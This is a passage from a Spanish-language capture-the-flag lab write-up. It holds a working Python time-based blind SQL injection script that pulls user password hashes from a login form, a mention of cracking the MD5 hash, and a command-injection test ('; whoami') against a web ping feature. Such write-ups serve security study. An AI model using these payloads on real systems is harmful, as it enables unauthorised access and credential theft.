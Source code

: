 ```python

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Password")

    password = ""

    for user in range(0, 4):
        for position in range(1, 50):
            for character in s:
                p1.status("Posicion numero %d de la extraccion de password del usuario admin | Caracter %c" % (position, character))
                post_data = {
                    'username': "admin' and if(substr((select password from users limit %d,1),%d,1)='%c',sleep(5),1)-- -" % (user, position, character),
                    'password': 'admin'
                }

                time_start = time.time()
                r = requests.post(login_url, data=post_data)
                time_end = time.time()

                if time_end - time_start > 5:
                    password += character
                    p2.status(password)

if __name__ == '__main__':

    makeRequest()
```

Aqui vemos que es un hash MD5 y passamos por rainbow tables para crackear la contraseña.

#### Utilizando la web {-}

La pagina web permite enviar ping a maquinas. Lo intentamos contra nuestra maquina de atacante.

1. En la maquina de atacante

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. Lanzamos por la web un ping a la 10.10.14.7

Y recibimos la traza.

Miramos si la web esta bien sanitizada mirando si poniendole 
```bash
 10.10.14.7; whoami 
```
 no salimos del contexto y es el caso.
Vamos a ganar accesso al systema.
## Vuln exploit & Gaining Access {-}
